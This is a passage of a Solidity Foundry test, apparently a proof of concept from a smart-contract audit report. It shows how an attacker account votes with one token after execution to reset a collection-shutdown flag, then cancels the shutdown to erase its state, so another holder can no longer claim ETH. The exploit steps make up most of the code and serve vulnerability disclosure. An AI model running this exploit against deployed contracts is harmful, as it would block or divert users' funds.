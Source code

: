 ```solidity
        // After we have executed, we should no longer have an execute flag
        assertCanExecute(address(erc721b), false);

        // Mock the process of the Sudoswap pool liquidating the NFTs for ETH. This will
        // provide 0.5 ETH <-> 1 {CollectionToken}.
        _mockSudoswapLiquidation(SUDOSWAP_POOL, tokenIds, 2 ether);

        // Ensure that all state are SET
        ICollectionShutdown.CollectionShutdownParams memory shutdownParamsBefore = collectionShutdown.collectionParams(address(erc721b));
        assertEq(shutdownParamsBefore.shutdownVotes, lewisVoteBalance);
        assertEq(shutdownParamsBefore.sweeperPool, SUDOSWAP_POOL);
        assertEq(shutdownParamsBefore.quorumVotes, lewisVoteBalance);
        assertEq(shutdownParamsBefore.canExecute, false);
        assertEq(address(shutdownParamsBefore.collectionToken), address(collectionToken));
        assertEq(shutdownParamsBefore.availableClaim, 2 ether);

        // -- Attack --
        uint256 balanceOfMaxBefore = collectionToken.balanceOf(address(Max));
        uint256 amountSpendForAttack = 1;

        // Transfer almost full funds to their second account and perform with small amount
        vm.prank(Max);
        collectionToken.transfer(address(MaxRecovery), balanceOfMaxBefore - amountSpendForAttack);
        uint256 balanceOfMaxAfter = collectionToken.balanceOf(address(Max));
        assertEq(balanceOfMaxAfter, amountSpendForAttack);

        // Max votes even it is in the claim state to flag the `canExecute` back to Trrue
        vm.startPrank(Max);
        collectionToken.approve(address(collectionShutdown), type(uint256).max);
        collectionShutdown.vote(address(erc721b));
        assertEq(collectionShutdown.shutdownVoters(address(erc721b), address(Max)), amountSpendForAttack);
        vm.stopPrank();

        // Confirm that Max can now flag `canExecute` back to `TRUE`
        assertCanExecute(address(erc721b), true);

        // Attack to delete all varaibles track, resulting others cannot claim thier eligible ethers
        vm.startPrank(Max);
        locker.createCollection(address(erc721b), 'Test Collection', 'TEST', 0);
        collectionShutdown.cancel(address(erc721b));
        vm.stopPrank();

        // Ensure that all state are DELETE
        ICollectionShutdown.CollectionShutdownParams memory shutdownParamsAfter = collectionShutdown.collectionParams(address(erc721b));
        assertEq(shutdownParamsAfter.shutdownVotes, 0);
        assertEq(shutdownParamsAfter.sweeperPool, address(0));
        assertEq(shutdownParamsAfter.quorumVotes, 0);
        assertEq(shutdownParamsAfter.canExecute, false);
        assertEq(address(shutdownParamsAfter.collectionToken), address(0));
        assertEq(shutdownParamsAfter.availableClaim, 0);

        // -- After Attack --
        vm.expectRevert();
        vm.prank(Lewis);
        collectionShutdown.claim(address(erc721b), payable(Lewis));
    }
```
</details>
